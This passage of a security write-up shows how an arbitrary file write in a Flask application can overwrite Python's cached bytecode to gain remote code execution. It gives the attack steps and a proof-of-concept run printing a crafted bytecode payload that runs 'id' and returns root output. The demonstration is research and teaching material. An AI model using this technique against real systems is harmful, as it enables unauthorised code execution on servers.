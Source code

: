 Or, spawn a new process with `concurrent.futures` and use keyword `__import__` to import the module:

```python
import concurrent.futures

def dynamicImportModule(module):
    importedModule = __import__(module)
    # do something with the imported module

with concurrent.futures.ProcessPoolExecutor() as executor:
    executor.submit(dynamicImportModule, 'utils')
```

Or, just wait for the server to restart to do the second import.

### Demonstration

In the following code, we have a Flask web application running with Python version 3.11 that allows an attacker to perform AFW. However, it only allows writing files in directory `/app`. Also, the filename must only contain alphanumeric, `-`, and `.` character. Moreover, the application is also vulnerable to arbitrary file read. And again, same limitations just like the those in AFW.

<details><summary markdown="span"><strong>app.py</strong></summary></details>

<details><summary markdown="span"><strong>telemetry.py</strong></summary></details>

<details><summary markdown="span"><strong>Dockerfile</strong></summary></details>

To overwrite the compiled bytecode file, we'll:
1. Send a GET request to `/telemetry` to dynamically import the module (To make sure the bytecode file is really compiled)
2. Leverage the arbitrary file read vulnerability to read the bytecode file's header fields and extract information such as the magic number, the modification date timestamp, and the source file size
3. Overwrite the compiled bytecode file via the AFW vulnerability with the new bytecode that contains our RCE payload
4. Trigger the overwritten bytecode file via sending a GET request to `/telemetry` (To dynamically import the overwritten bytecode file)

Here's the PoC script to do the above steps:

<details><summary markdown="span"><strong>poc.py</strong></summary></details>

```shell
└> python3 poc.py 
[*] Force compile telemetry.py bytecode file on the server...
[*] Reading the bytecode file content...
[*] Modifying the bytecode with our own RCE payload...
[*] Magic number: b'\xa7\r\r\n'
[*] Bit field: b'\x00\x00\x00\x00'
[*] Source modification time: Tue Apr 15 22:27:19 2025
[*] Source file size: 81
[+] RCE payload:
b'\xa7\r\r\n\x00\x00\x00\x00\xc7l\xfegQ\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xf3B\x00\x00\x00\x97\x00\x02\x00e\x00d\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x02S\x00)\x03\xda\x02osz\x1cid > /app/uploads/output.txtN)\x02\xda\n__import__\xda\x06system\xa9\x00\xf3\x00\x00\x00\x00\xfa\x11/app/telemetry.py\xfa\x08<module>r\x08\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xd8\x00\n\x80\n\x884\xd1\x00\x10\xd4\x00\x10\xd7\x00\x17\xd2\x00\x17\xd0\x186\xd1\x007\xd4\x007\xd0\x007\xd0\x007\xd0\x007r\x06\x00\x00\x00'
[*] Overwriting the original bytecode file with our own RCE payload...
[*] Triggering the overwritten bytecode file...
[+] Payload output:
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```
